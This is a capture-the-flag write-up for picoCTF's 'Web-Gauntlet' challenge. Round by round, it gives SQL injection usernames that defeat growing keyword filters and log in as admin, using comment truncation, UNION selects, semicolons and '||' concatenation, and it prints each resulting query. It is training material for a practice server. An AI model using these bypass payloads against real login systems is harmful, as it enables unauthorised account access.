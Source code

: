 # Web-Gauntlet
AUTHOR: MADSTACKS <br>
DESCRIPTION: Can you beat the filters? Log in as admin http://jupiter.challenges.picoctf.org:29164/ http://jupiter.challenges.picoctf.org:29164/filter.php

# Solution
The challenges consist of 5 Rounds, each requiring SQL injections to move to the next round.

Round 1: <br>
Filter :  `or` <br>
Username = `admin' -- `<br>
Password = `foo` <br>
Query : `SELECT * FROM users WHERE username='admin' --' AND password='foo'`<br>
<br>
Round 2: <br>
Filter : `or and = like --` <br>
Username = `admin' union select * from users where '1`<br>
Password = `foo`<br>
Query : `SELECT * FROM users WHERE username='admin' union select * from users where '1' AND password='foo'`<br>
<br>
Round 3: <br>
Filter : `or and = like > < --`<br>
Username = `admin';`<br>
Password = `foo`<br>
Query : `SELECT * FROM users WHERE username='admin';' AND password='foo'`<br>
<br>
Round 4: <br>
Filter : `or and = like > < -- admin`<br>
Username = `ad'||'min;`<br>
Password = `foo`<br>
Query : ` SELECT * FROM users WHERE username='ad'||'min';' AND password='foo'`<br>
<br>
Round 5: <br>
Filter : `or and = like > < -- union admin`<br>
Username = `ad'||'min;`<br>
Password = `foo`<br>
Query : `SELECT * FROM users WHERE username='ad'||'min';' AND password='foo'`<br>

FLAG will be present in `filter.php` at the end of 5 rounds
